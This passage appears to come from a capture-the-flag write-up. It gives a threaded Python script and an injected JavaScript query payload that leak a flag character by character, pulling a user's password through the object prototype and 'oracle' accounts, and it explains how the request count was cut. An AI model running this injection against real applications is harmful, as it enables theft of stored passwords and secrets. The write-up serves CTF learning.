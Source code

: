 ``` py
start = time.time()

print("create oracle account...")
total = len(charset)
current = 0
with concurrent.futures.ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
    futures = {executor.submit(create_oracle, c): c for c in charset}
    for future in concurrent.futures.as_completed(futures):
        current += 1
        if current % 10 == 0 or current == total:
          print(f"Progress: {current}/{total}")

print("leaking flag")

length = 19
ans = [' '] * length
with concurrent.futures.ThreadPoolExecutor(max_workers=15) as executor:
    futures = {executor.submit(leak_char, i): i for i in range(length)}
    for future in concurrent.futures.as_completed(futures):
        index = futures[future]
        data = future.result()
        ans[index] = data
        print("".join(ans))

print(f"time: {time.time() - start}s, {req_count} requests")
```

This version takes 7s and 95 requests.

## Ultimate version

For now, setup phase makes 10 requests and leaking phase makes 1 login + 2 update email + 2 search requests. 

Can we still reduce the number of requests?

Sure, if we apply the "state-persistent" technique again.

Why do we need to make two requests for updating the email? Because we have two rounds, the leaking target is different bwteeen these two.

Here is the idea, how about make our JS code state-dependent? If a special email is not exists, we leak first round, otherwise second round.

The code is like this:

``` js
if (this.username == "PinkDraconian"){
  this.__proto__.flag = this.password;
} else if (this.flag) {
  if (this.email == "SWITCH_EMAIL") {
    this.__proto__.condition = 1;
  }
  if (this.condition) {
    return this.username == "account_oracle_" + Math.floor((this.flag.charCodeAt(INDEX) - 27) / 10)
  }
  return this.username == "account_oracle_" +  (this.flag.charCodeAt(INDEX) - 27) % 10
}
```

